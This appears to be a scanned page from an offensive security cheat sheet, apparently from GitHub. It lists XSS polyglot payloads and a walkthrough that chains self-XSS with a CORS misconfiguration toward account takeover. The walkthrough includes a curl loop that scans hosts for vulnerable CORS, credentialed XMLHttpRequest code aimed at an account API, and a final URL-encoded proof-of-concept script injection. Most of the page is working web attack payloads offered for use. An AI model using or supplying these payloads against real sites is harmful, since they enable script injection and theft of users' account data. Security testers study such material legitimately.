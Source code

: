 ### **polyglots**

```jsx
jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="<http://i.imgur.com/P8mL8.jpg>">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()///</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```

### XSS Exploitation

* Self XSS + CORS = ATO

```bash
https://notifybugme.medium.com/chaining-cors-by-reflected-xss-to-account-takeover-my-first-blog-5b4f12b43c70
1. Got self XSS ?
2. cat corstexturl.txt | CorsMe or cat corstexturl.txt | soru -u | anew |while read host do ; do curl -s — path-as-is — insecure -H “Origin: test.com” “$host” | grep -qs “Access-control-allow-origin: test.com” && echo “$host \\033[0;31m” cors Vulnerable;done
  3. So to exploit this CORS Misconfiguration we just need to replace the XSS payload alert(document.domain), with the following code:
  
  function cors() {  
  var xhttp = new XMLHttpRequest();  
  xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    alert(this.responseText);     
    document.getElementById("demo").innerHTML = this.responseText;    
    }  
  };  
  xhttp.open("GET", "<https://www.attacker.com/api/account>", true);  
  xhttp.withCredentials = true;  
  xhttp.send();
  }
  cors();
  4. So here is the final POC
  https://test.attacker.com/patter.jsp?facct="><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.attacker.com/api/account",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```
